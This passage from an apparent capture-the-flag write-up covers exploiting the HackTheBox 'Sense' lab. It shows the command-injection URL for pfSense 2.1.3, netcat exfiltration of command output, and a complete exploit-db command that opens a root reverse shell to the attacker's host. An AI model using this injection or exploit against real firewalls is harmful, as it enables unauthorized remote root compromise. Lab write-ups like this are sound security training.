 A lot of information pops out on the screen. The most important one is the version.
```
Version 	2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16
Unable to check for updates.
```

Knowing the version (**2.1.3**), we can openly search for vulnerabilities. By doing some simple google searching, I was able to find that this particular version is vulnerable to a remote command execution exploit. You can read more about it [here](https://packetstormsecurity.com/files/145575/pfSense-2.1.3-RELEASE-amd64-Remote-Command-Execution.html). 

***

# Exploitation
There are multiple approaches for exploiting this machine. Let's go through them one by one.

## Manual
The report discloses that database GET parameter is vulnerable to an injection. Therefore `https://10.10.10.60/status_rrd_graph_img.php?&database=queues;<INJECTION>` will allow us to run any command on the system. There's one problem though. There is no way of seeing stdout! Simple fix can achieved by piping every injection through netcat and then listening for the server's reply on our machine.

<img src="/assets/img/blog/htb-sense/htb-sense-06.png">

Ippsec does a lot better & more detailed job of explaining this than I ever could, so props to him. He goes over multiple important things such as evading bad characters and pivoting through another machine in case pfSense blocks you. I highly advise you watch his [video](https://www.youtube.com/watch?v=d2nVDoVr0jE)! The injection part starts at around **17:30**.

## Using exploitdb python script
The script can be located [here](https://www.exploit-db.com/exploits/43560/).
```console
usage: exploit.py [-h] [--rhost RHOST] [--lhost LHOST] [--lport LPORT]
                  [--username USERNAME] [--password PASSWORD]
```

And therefore running `python3 exploit.py --rhost 10.10.10.60 --lhost 10.10.14.73 --lport 1234 --username rohit --password pfsense` should return us a root shell!
